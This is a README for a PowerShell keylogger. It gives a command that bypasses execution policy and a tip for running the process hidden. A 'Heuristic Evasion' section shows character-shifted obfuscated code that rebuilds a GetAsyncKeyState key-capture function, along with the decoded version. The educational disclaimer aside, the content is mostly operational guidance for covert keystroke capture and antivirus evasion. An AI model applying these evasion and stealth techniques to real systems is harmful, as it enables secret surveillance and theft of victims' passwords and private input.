 # Powershell_Keylogger
THIS TOOL IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY

MALICIOUS USE OF THIS TOOL MAY CONSTITUTE A CRIME


![image](https://github.com/user-attachments/assets/62e2e45e-94a6-49e6-830d-5d7bb5f7754d)
[VirusTotal Report](https://www.virustotal.com/gui/file/5eea445524cc3ce4f703ff86436e4cd513c558e50feb887f2a0b26ca38eca845/detection)

# Running Tool

Often times windows powershell prevents running scripts due to execution policy, this can be avoided by using the following syntax

```
powershell.exe -ExecutionPolicy Bypass -File keylogger.ps1
```
This command does not require elevated permissions

To run this in the background append the `-windowstyle hidden` argument to the previous command

# Heuristic Evasion

```
$KeyStateFunction = ""
(109, 124, 117, 106, 123, 112, 118, 117, 39, 78, 108, 123, 82, 108, 128, 90, 123, 104, 123, 108, 39, 47, 43, 114, 108, 128, 51, 39, 43, 116, 104, 122, 114, 39, 68, 39, 55, 127, 62, 77, 77, 77, 48, 39, 130, 39, 121, 108, 123, 124, 121, 117, 39, 98, 105, 118, 118, 115, 100, 47, 47, 98, 87, 122, 86, 117, 108, 72, 119, 112, 53, 82, 108, 128, 105, 118, 104, 121, 107, 100, 65, 65, 78, 108, 123, 72, 122, 128, 117, 106, 82, 108, 128, 90, 123, 104, 123, 108, 47, 98, 105, 128, 123, 108, 100, 43, 114, 108, 128, 48, 48, 39, 52, 105, 104, 117, 107, 39, 43, 116, 104, 122, 114, 48, 39, 132) | ForEach-Object {
	$KeyStateFunction += [char]($_ - 7)
}
```

The full function is:

```
function GetKeyState ($key, $mask = 0x7FFF) { 
    return [bool](([PsOneApi.Keyboard]::GetAsyncKeyState([byte]$key)) -band $mask) 
}
```

